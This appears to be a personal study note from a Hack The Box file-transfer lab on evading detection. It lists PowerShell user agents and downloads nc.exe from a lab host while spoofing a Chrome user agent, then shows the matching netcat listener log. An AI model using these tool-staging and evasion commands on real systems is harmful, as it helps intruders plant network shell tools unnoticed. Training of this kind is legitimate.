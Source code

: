 ```yaml
---
Title: HTB\File_Transfers\evading detection
tags:
  - os/windows
  - os/linux-
source: HTB\File_Transfers\evading detection
---
```


# HTB\File_Transfers\evading detection

> Źródło: `HTB\File_Transfers\evading detection`

Listing user agents
```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Invoking Invoke-WebRequest to download nc.exe using chrome agent
```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```bash
Ovas420@htb[/htb]$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```


**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]]
